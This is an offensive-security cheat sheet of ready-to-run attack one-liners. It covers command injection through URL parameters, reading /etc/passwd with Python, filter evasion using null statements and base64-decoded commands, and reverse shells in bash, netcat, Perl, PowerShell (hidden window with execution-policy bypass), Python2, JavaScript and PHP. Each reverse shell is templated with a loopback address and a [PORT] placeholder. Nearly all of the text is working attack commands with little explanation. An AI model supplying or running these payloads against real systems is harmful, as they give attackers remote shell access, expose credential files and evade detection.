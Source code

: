 	Note:
		URL encode commands when submitting
		/tmp, /var/tmp and /var/lock are typically world writeable
	In below, replace [PORT]

# Shells
## In URL
Sometimes additional commands can be appended to variables parsed server-side.
`?variable=legitvalue;ls+-l`
## Python
Python3
`python3 -c "print(open('/etc/passwd', 'r').read())"`
Python2
`python2 -c "print(open('/etc/passwd',+'r').read())"`
## Filter Bypasses
Using null statements to bypass string detection
`whoa$()mi, l$()s -$()l`

Base64 encoding
`echo "$(openssl enc -base64 -d <<< "Y2F0IC9ldGMvcGFzc3dkCg==")"`

# Reverse Shells

## Localhost
Initialise a netcat listener
`nc -nlvp PORT`
## Bash
`bash -c 'bash -i >& /dev/tcp/127.0.0.1/[PORT] 0>&1'`
`sh -i >& /dev/tcp/127.0.0.1/[PORT] 0>&1`
## Netcat
`/bin/nc -nv 127.0.0.1 [PORT] -e /bin/bash`
## Perl
`perl -e 'use Socket;$i="127.0.0.1";$p=[PORT];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

## Powershell
Opening sockets using -Exec Bypass
`powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("127.0.0.1",[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

Opening Sockets using $client
`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('127.0.0.1',[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
## Python2
`python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",[PORT]));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`
## JavaScript 
Uses JavaScript to spawn a netcat connection
`echo "require('child_process').exec('nc -nv 127.0.0.1 [PORT] -e /bin/bash')" > /var/tmp/shell.js ; node /var/tmp/shell.js`
## PHP
Various ways of using PHP to spawn connection
```
php -r '$sock=fsockopen("127.0.0.1",[PORT]);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("127.0.0.1",[PORT]);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("127.0.0.1",[PORT]);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("127.0.0.1",[PORT]);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("127.0.0.1",[PORT]);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
php -r "system(\"bash -c 'bash -i >& /dev/tcp/127.0.0.1/[PORT] 0>&1'\");"
```
